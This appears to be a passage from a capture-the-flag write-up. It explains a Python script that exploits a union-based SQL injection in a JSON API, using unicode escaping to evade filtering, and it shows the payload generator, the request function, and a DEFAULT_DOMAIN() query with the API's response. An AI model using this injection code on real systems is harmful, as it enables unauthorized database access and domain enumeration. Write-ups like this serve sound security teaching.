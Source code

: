 The next section will be an explanation of my python script.

#### Python Script

The first thing that is necessary for the python script is getting the basic SQL-injection working. For this we need to implement the unicode-escaping as well as a way to easily generate payloads and parse the results.

```python
def escape(payload):
   line = payload.encode("utf-8").hex()
   groups = [line[i:i+2] for i in range(0, len(line), 2)]
   data = ''
   for x in groups:
       data = data + '\\u00' + x
   return data
```

Now we can unicode-escape our payload. Next up we need to generate payloads.

```python
gen_payload = lambda payload : f"a' UNION ALL SELECT 1,{payload},3,4,5 --"
""" # Without lambda declaration:
def gen_payload(payload):
    return f"a' UNION ALL SELECT 1,{payload},3,4,5 --"
"""
```

To generate payloads we can simply use a lambda function that will return our SQL-injection string. Now we just need a function to send data to the API.

```python
def send(payload):
    injection = escape(payload)
    data = '{"name":"'+injection+'"}'
    try:
        r = requests.post(url, data=data, headers=headers, timeout=3)
        response = parse(r.text)
    except Exception as ex:
        print(f"[-] ERROR: {ex}")
    return response
```

We now have implemented all the necessary functions that we need to exploit this technique to enumerate domain users. Next we need to get the domain SID. For this we first have to get the Domain name. In order to do so, we use the SQL function called `DEFAULT_DOMAIN()`. Our payload therefore looks as follows:

```sql
a' UNION ALL SELECT 1,DEFAULT_DOMAIN(),3,4,5 --
```

The response from the API is as follows:

```json
[{"id":1,"name":"MEGACORP","position":"3","email":"4","src":"5"}]
```
